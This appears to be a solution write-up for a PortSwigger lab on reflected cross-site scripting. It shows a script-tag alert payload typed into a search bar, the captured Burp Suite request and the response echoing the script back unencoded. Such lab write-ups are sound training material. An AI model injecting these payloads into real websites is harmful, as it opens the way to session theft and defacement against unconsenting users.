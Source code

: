 ```yaml
---
title: >
  Solution to Lab: Reflected XSS into HTML context with nothing encoded
---
```


The following is a solution to [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded).

In the UI of the lab, enter the following payload into the search bar and click Search:
`<script>alert("howdy");</script>`

This step is demonstrated in the screenshot below:
![A screenshot of the search bar with the alert("howdy"); payload as the search term](/docs/assets/alert()-poc-1.png)

As a result, an alert box appears in the UI, with the text from the alert() payload. This is demonstrated in the screenshot below:
![A screenshot of the alert box with the message "howdy"](/docs/assets/alert()-poc-2.png)

The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

~~~
GET /?search=%3Cscript%3Ealert%28%22howdy%22%29%3B%3C%2Fscript%3E HTTP/2
Host: 0ade007003023308825a84e400020013.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ade007003023308825a84e400020013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


~~~

The following is a snippet of the HTTP response to the above request.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4876

<!DOCTYPE html>
<html>
...
<h1>0 search results for '<script>alert("howdy");</script>'</h1>
...
~~~

This shows that the application reflected the user input inside of the response.